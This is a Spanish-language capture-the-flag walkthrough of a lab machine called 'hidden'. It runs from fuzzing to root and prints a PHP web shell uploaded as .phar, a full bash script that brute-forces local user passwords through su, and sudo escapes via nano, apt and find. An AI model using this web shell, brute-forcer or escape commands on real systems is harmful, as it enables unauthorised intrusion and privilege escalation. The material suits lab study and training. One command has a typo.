- Tags: #fuzzing #escalarPrivilegios #linux 
______
comenzamos la maquina con el típico escaneo de nmap, en el cual encontramos que el puerto 80 esta abierto, aplicamos el script básico de reconocimiento pero no encontramos nada relevante.
____

____
aplicaremos fuzzing para listar directorios. para esto utilizaremos gobuster y veremos que nos reporta.
____

_______
tenemos dos directorios que podrían llegar a ser interesantes los cuales son /mail y  /js pero al final no tienen nada interesante, por lo que ahora nos enfocamos en hacer fuzzing a subdominios.

para esto utilizaremos la herramienta de wfuzz y aplicaremos el siguiente comando.

```shell
wfuzz -c --hl=9 -w /usr/share/seclists/discovery/DNS/subdomains-top1million-110000.txt -H "host:FUZZ.hidden.lab" -u 172.17.0.2
```

veremos a continuación el resultado de realizar este fuzzing.
______

______
tenemos un **dev** el cual agregaremos a la url y veremos a donde nos lleva.
______

_____
tenemos que agrear la nueva url al archivo de hosts, para que nos muestre el contenido.
______

_____
nos dice que no se permiten archivos .php, por lo que utilizaremos burpSuite para realizar un ataque de tipo sniper para ver que extensiones si son validas.
____

_______
y vemos que el .phar es valido, por lo debemos crear un payload en php que nos permita ejecutar comandos.

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

subimos el archivo y probamos a ver si nos deja ejecutar comandos.
____

____
es hora de entablar la reverse shell y acceder a la maquina victima.

ganamos acceso como www-data y si listamos los usuarios con el comando `cut -d: -f1 /etc/passwd`

vemos que existen los siguientes usuarios
_____

____
verificando los permisos setuid no se encontró nada de utilidad para escalar privilegios.

por lo que aplicamos un sudo -l y nos pide contraseña, por lo que investigando descubrí un script de bash que permite aplicar fuerza bruta a los usuarios disponibles para tratar de encontrar sus contraseñas.

el scritp es el siguiente:

```bash
#!/bin/bash

# Función que se ejecutará en caso de que el usuario no proporcione 2 argumentos.
mostrar_ayuda() {
    echo -e "\e[1;33mUso: $0 USUARIO DICCIONARIO"
    echo -e "\e[1;31mSe deben especificar tanto el nombre de usuario como el archivo de diccionario.\e[0m"
    exit 1
}

# Para imprimir un sencillo banner en alguna parte del script.
imprimir_banner() {
    echo -e "\e[1;34m"  # Cambiar el texto a color azul brillante
    echo "******************************"
    echo "*     BruteForce SU         *"
    echo "******************************"
    echo -e "\e[0m"  # Restablecer los colores a los valores predeterminados
}

# Llamamos a esta función desde el trap finalizar SIGINT (En caso de que el usuario presione control + c para salir)
finalizar() {
    echo -e "\e[1;31m\nFinalizando el script\e[0m"
    exit
}

trap finalizar SIGINT

usuario=$1
diccionario=$2

# Variable especial $# para comprobar el número de parámetros introducido. En caso de no ser 2, se imprimen las instrucciones.
if [[ $# != 2 ]]; then
    mostrar_ayuda
fi

# Imprimimos el banner al momento de realizar el ataque.
imprimir_banner

# Bucle while que lee línea a línea el contenido de la variable $diccionario, que a su vez esta variable recibe el diccionario como parámetro.
while IFS= read -r password; do
    echo "Probando contraseña: $password"
    if timeout 0.1 bash -c "echo '$password' | su $usuario -c 'echo Hello'" > /dev/null 2>&1; then
        clear
        echo -e "\e[1;32mContraseña encontrada para el usuario $usuario: $password\e[0m"
        break
    fi
done < "$diccionario"
```

este script tal vez nos permita saber la contraseña de algún usuario.

las indicaciones nos dicen que se necesita de un diccionario para probar, tenemos el rockyou pero es un diccionario con un peso considerable para poder subirlo a la maquina, por lo que dividiremos el mismo en partes que contengan 1000 palabras por archivos.

aplicamos el siguiente comando al diccionario para dividirlo 

```bash
split -l 1000 /ruta/del/diccionario part_
```

ahora debemos subir tanto el script como el diccionario, del diccionario solo subiremos la primera parte y probaremos.

la sintaxis del script es sencilla y es la siguiente:

```bash
bash scritp.bash <usuario> <diccionario>
```
_____

_____
aplicamos el script a los 3 diferentes usuarios existente pero solo funciono para el usuario cafetero.

por lo que aplicando un `su cafetero` y su clave, lograremos pivotar al usuario cafetero y como conocemos su clave podremos aplicar el comando `sudo -l` y veremos lo siguiente.
____

____
nos dice que podemos ejecutar sin clave el comando nano desde el usuario john, y esto es grave puesto que nano tiene una vulnerabilidad que nos permite pivotar al usuario que ejecute el comando de nano.

si aplicamos el comando:

```shell
su -u john /usr/bin/nano nano
```

podremos acceder al nano y aplicar los siguiente comando para pivotar de usuario.

```shell
R^+X^ (CTRL R + CTRL X)
reset; bash 1>&0 2>&0
```

de esta forma pasaremos al usuario john.
______

____
ahora que somos el usuario john  apliquemos el comando `sudo -l`.
____

____
nos dice que podemos ejecutar el comando apt como el usuario bobby sin proporcionar contraseña.

por lo investigaremos la forma de pivotar al usuario bobby por medio del comando apt

y encontramos que si aplicamos el siguiente comando.

```shell
sudo apt changelog apt
!/bin/sh
```

podremos pivotar de usuario, pero debemos adaptar este comando de la siguiente forma.

```shell
sudo -u bobby /usr/bin/apt changelog apt
```
____

____
y ahora somos usurario bobby apliquemos el comando `sudo -l` para ver que prosigue.
___

____
nos dice que podemos ejecutar el comando find como usuario root sin proporcionar contraseña.

busquemos la forma de escalar privilegios por medio del comando find.

```shell
sudo find . -exec /bin/sh \; -quit
```

con el siguiente comando lograremos ser root.
____

___
damos por culminada la maquina hidden.


